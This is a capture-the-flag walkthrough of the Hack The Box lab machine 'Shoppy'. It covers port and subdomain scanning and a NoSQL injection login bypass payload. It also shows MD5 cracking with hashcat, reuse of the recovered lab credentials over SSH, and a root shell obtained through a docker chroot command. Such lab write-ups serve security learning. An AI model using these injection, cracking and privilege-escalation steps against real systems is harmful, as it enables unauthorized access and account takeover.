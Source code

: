 ![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360c5003abe63ea2c6fbff4_Shoppy.png)

### Nmap

Nmap Shows only 2 open ports:  
22/tcp SSH  
80/tcp HTTP

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360c65e720e3f6a194da2eb_01-nmap.png)

### Directory Fuzzing

Quick directory scan with gobuster
![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360c6be78f08dcea63b0e08_02-gobuster.png)

### SubDomains Fuzzing

Fuzzing for subdomains we found one with the wordlist **bitquark-subdomains-top100000.txt** 
```sh
ffuf -H "Host: FUZZ.shoppy.htb" -w
/usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u
http://FUZZ.shoppy.htb
```

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360cc603abe63473f70078d_08-FFuf.png)


### SQLi Login Bypass

We can try some login bypass **SQLinjection** and we obtain access with a NoSQL injection.
<https://book.hacktricks.xyz/pentesting-web/nosql-injection>  

```
admin' || '"_"
```

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360c8f69c0f3628d7f9c74b_04-sqli.png)

This is the internal Dashboard of the webapp.

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360c8f177b2ce065a8b2586_05-adminpage.png)

  
If we click the "**search for users**" button, and we use the same sqli we used for the login it will give us a json export with credentials to download.
‍

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360ca80701e5f5e26897c4f_06-search.png)![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360cac1bccf18280b20f411_07-json.png)

### Mattermost

**Josh** credentials works in the subdomain page. The password is an MD5 crackable with **john the ripper** or **hashcat**

```sh
hashcat '6ebcea65320589ca4f2f1ce039975995' -a 0 -m 0 --wordlist /usr/share/wordlists/rockyou.txt
```

Go to http://mattermost.shoppy.htb  and you'll be redirect to a login page and use this credentials:  
User: **josh**  
Pass: **remembermethisway**

Once inside the subdomain dashboard we find very interesting info that will give us **ssh access** and will help us later with the **privesc to become root**

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360d1b383fe8784c1544f39_09-mattermost.png)

Usiamo le seguenti credenziali di accesso per ssh  
username: **jaeger**  
password: **Sh0ppyBest@pp!**
### SSH

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360d23f26a735312a2f5069_10-ssh.png)

Inside the home folder we notice that there are 2 folders **jaeger** and **deploy**.
Inside deploy there are three files
![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360d3324e80021b6b83c27c_11_1-password-manager.png)

If we just cat the **"password manager"** bin we can see the password: **Sample**
```sh
cat /home/deploy/password-manager  
```

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360d44a77b2ce801d8bb558_11-password-manager.png)

So we have the password to execute the binary as deploy:
```sh
sudo -u deploy /home/deploy/password-manager
```

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360d5144e800217f383de86_12-deploy.png)

We now have the credentials to become deploy user, we can access via ssh
```sh
ssh deploy@localhost
```

### Privesc to Root

We know we are inside a **Docker** thanks to the kind message from **mattermost.shoppy.htb**

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360d5686855c969745ec2f2_docker-enum.png)

We can look for a command that allow us to privesc to root on GTOBINS!
‍[https://gtfobins.github.io/gtfobins/docker  
‍](https://gtfobins.github.io/gtfobins/docker/)

```sh
docker run -v /:/mnt --rm -it alpine chroot /mnt sh  
```

![](https://uploads-ssl.webflow.com/6360098c80eb70db541a2560/6360d6ab82ec262ee6cd53be_14-root.png)

**ROOT!**
